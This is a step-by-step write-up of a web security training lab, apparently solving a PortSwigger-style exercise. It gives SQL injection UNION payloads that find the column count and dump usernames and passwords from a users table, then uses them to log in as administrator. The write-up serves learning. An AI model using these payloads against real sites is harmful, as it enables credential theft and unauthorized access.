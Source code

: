 # Lab: SQL injection UNION attack, retrieving data from other tables

> Lab Objective: perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

- Firstly, Filter Products based on category (e.g., `?category=Gifts`)
  ![1st Screenshot](./Photos/1.png)

- Use this payload to check if SQLi exist `Gifts'`
  ![2nd Screenshot](./Photos/2.png)

  - Which indicates that SQLi exist.

- Use `'UNION SELECT null, ... -- -` to check how many columns are returned by the main query, then substitute null with `'a'` to see which columns carry a string value.

- The main query returns two columns and both can carry a string value, using this payload `' UNION SELECT 'a', 'a' -- -`.
  ![3rd Screenshot](./Photos/3.png)

- Use this payload `' UNION SELECT username, password FROM users -- -`, to retrieve all usernames and passwords from users table.

  > Note: table & column names are provided in the lab description

  ![4th Screenshot](./Photos/4.png)

- Use the administrator credentials to log in as administrator.
  ![5th Screenshot](./Photos/5.png)
  ![6th Screenshot](./Photos/6.png)
